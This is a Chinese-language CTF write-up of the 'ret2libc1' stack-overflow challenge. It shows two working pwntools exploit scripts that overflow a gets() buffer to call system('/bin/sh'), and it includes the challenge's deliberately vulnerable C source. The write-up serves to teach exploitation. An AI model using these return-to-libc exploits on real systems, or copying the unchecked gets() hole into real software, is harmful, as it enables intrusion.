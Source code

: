 ```yaml
---
layout:     post
title:      ret2libc1
subtitle:   解题思路
date:       2018-07-06
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




## 所需环境

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida



[程序下载](https://maoshuu.oss-cn-beijing.aliyuncs.com/elf/ret2libc1)



## 分析过程

分析程序，发现main函数中存在gets函数有溢出

![image-20180911173621421](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-094637.png)



利用gdb定位溢出点，第113个字符开始覆盖ret返回地址

![image-20180911174258124](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-094302.png)



确定返回地址

观察ida反编译结果，发现程序中存在system函数，但是它不是直接执行的system('/bin/sh')命令，而是system('/shell!?')，所以我们需要找到 ‘/bin/sh’ 字符串传到system函数中

![image-20180911174427074](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-094645.png)



寻找/bin/sh字符串位置

![image-20180911202516403](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-122519.png)



找到rodata段中定义的/bin/sh字符串

![image-20180911202553281](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-124033.jpg)



所以这里就有两种思路，第一种通过plt表调用system函数，第二种通过跳转到程序中call system这句指令的地址来执行system('/bin/sh')



## 解题思路

exp1.py

```python
#!/usr/bin/env python

from pwn import *

sh = process('./ret2libc1')
elf = ELF('./ret2libc1')

system_addr = elf.plt['system']
binsh_addr = 0x8048720

sh.sendline('a'*112 + p32(system_addr) + 'b'*4 + p32(binsh_addr))


sh.interactive()
```

执行结果

![image-20180911202735712](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-124025.jpg)



exp2.py

```python
#!/usr/bin/env python

from pwn import *

sh = process('./ret2libc1')

system_addr = 0x08048611   #call system 指令的地址
binsh_addr = 0x8048720

sh.sendline('a'*112 + p32(system_addr) + p32(binsh_addr))
sh.interactive()
```



执行结果：

![image-20180911203302487](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-123336.jpg)



ret2libc1源代码

```c
ret2libc1.c

#include <stdio.h>

#include <stdlib.h>

#include <time.h>


char *shell = "/bin/sh";
char buf2[100];

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("shell!?");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf1[100];

    printf("RET2LIBC >_<\n");
    gets(buf1);

    return 0;
}
```



## 总结